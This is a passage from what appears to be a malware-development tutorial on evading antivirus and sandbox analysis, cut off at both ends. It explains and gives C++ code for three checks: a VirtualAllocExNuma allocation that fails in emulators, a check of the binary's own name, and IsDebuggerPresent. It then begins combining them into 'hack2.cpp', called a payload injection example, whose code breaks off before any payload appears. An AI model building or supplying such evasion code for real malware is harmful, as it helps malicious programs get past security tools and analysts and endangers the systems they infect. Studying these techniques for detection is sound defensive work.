 ```cpp
  }
}

//...
```

What we're doing here is trying to allocate memory with `VirtualAllocExNuma()`, and if it fails we just exit immediately.
Otherwise, execution will continue.   

Since the code is emulated it is not started in a process which has the name of the binary file. That's why we check that first argument contains name of the file:   
```cpp
// what is my name???
if (strstr(argv[0], "hack2.exe") == NULL) {
  printf("What's my name? WTF?? :(\n");
  return -2;
}
```

It's possible to simply "ask" the operating system if any debugger is attached. `IsDebuggerPresent` function basically checks `BeingDebugged` flag in the `PEB`:   
```cpp
// "ask" the OS if any debugger is present
if (IsDebuggerPresent()) {
  printf("attached debugger detected :(\n");
  return -2;
}
```

Dynamic malware analysis - or sandboxing - has become the centerpiece of any major security solution. At the same time, almost all variants of current threats include some kind of sandbox detection logic.   

So we can try to combine all this tricks (`hac2.cpp`):    
```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <memoryapi.h>

typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE         hProcess,
  LPVOID         lpAddress,
  SIZE_T         dwSize,
  DWORD          flAllocationType,
  DWORD          flProtect,
  DWORD          nndPreferred
);

// memory allocation work on regular PC 
// but will fail in AV emulators
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = 
  (pVirtualAllocExNuma)GetProcAddress(
  GetModuleHandle("kernel32.dll"), 
```